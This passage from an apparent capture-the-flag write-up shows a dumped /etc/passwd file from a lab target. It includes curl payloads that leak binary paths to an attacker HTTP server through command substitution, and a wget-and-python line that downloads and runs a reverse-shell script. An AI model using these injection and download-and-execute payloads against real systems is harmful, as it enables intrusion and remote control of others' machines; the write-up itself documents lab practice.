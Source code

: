 ```
ing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/
usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologinsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nolo
ginsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/s
bin/nologinmessagebus:x:103:106::/nonexistent:/usr/sbin/nologinsyslog:x:104:110::/home/syslog:/usr/sbin/nologin_apt:x:105:65534::/nonexistent:/usr/sbin/nolog
intss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/falseuuidd:x:107:112::/run/uuidd:/usr/sbin/nologintcpdump:x:108:113::/nonexistent:/usr/sbin/nologinla
ndscape:x:109:115::/var/lib/landscape:/usr/sbin/nologinpollinate:x:110:1::/var/cache/pollinate:/bin/falsefwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/s
ystemd:/usr/sbin/nologinusbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologinsshd:x:113:65534::/run/sshd:/usr/sbin/nologinsystemd-coredump:x:999
:999:systemd Core Dumper:/:/usr/sbin/nologinrosa:x:1000:1000:rosa:/home/rosa:/bin/bashlxd:x:998:100::/var/snap/lxd/common/lxd:/bin/falseapp:x:1001:1001:,,,:/
home/app:/bin/bash_laurel:x:997:997::/var/log/laurel:/bin/false
```

Then, we verify the existance of `nc` and `python3` with the following payloads:

```
curl http://10.10.14.182:2222$(which nc)
curl http://10.10.14.182:2222$(which python3)
```

We receive confirmation of the existance of the binaries in the machine:

```
python3 -m http.server 2222                                               
Serving HTTP on 0.0.0.0 port 2222 (http://0.0.0.0:2222/) ...
10.10.11.38 - - [09/Mar/2025 12:01:17] code 404, message File not found
10.10.11.38 - - [09/Mar/2025 12:01:17] "GET /usr/bin/nc HTTP/1.1" 404 -
10.10.11.38 - - [09/Mar/2025 12:02:02] code 404, message File not found
10.10.11.38 - - [09/Mar/2025 12:02:02] "GET /usr/bin/python3 HTTP/1.1" 404 -
```

Finally, we craft the following payload and receive a reverse shell in our netcat listener, as shown bellow:

```
wget http://10.10.14.182:2222/rev.py -O /tmp/rev.py && python3 /tmp/rev.py
```

![alt text](assets/image-2.png)
